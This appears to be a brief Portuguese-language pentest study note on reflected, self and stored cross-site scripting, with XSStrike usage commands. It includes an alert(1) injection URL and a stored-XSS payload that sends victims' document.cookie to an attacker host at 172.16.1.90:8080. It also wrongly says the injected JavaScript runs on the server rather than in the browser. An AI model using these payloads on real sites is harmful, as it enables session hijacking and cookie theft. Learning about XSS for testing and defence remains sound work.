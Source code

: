## Reflected 
Usando o mesmo conceito de injeção de HTML, também é possível injetar código JavaScript no servidor para executar código no servidor. O XSS refletido ocorre porque o invasor cria uma URL maliciosa e precisa enviá-la à vítima, sem que nenhuma gravação seja feita no banco de dados da página

## Self
Na URL, é possível colocar uma / para ver como a página se comporta, e possivelmente inserir código javascript pela URL, por exemplo: 172.16.1.10/turismo/procurar.php/"><script>alert(1)</script>

## Stored 
Quando o XSS é armazenado em algum lugar, por exemplo, comentários de feedback, é possível roubar cookies de outros usuários enviando-os para o próprio servidor, por exemplo: <script>new Image().src="http://172.16.1.90:8080/?="+document.cookie;</script>

### XSStrike
O XSStrike é uma ferramenta para automatizar os testes de XSS em um host
Para utilizar ele basta utilizar o comando `python3 xsstrike.py -u "host?parameter="` ou `python3 xsstrike.py -u "host" --params` para XSS Refletido e o comando `python3 xsstrike.py -u "host/" --path` para Self XSS

Link: https://github.com/s0md3v/XSStrike
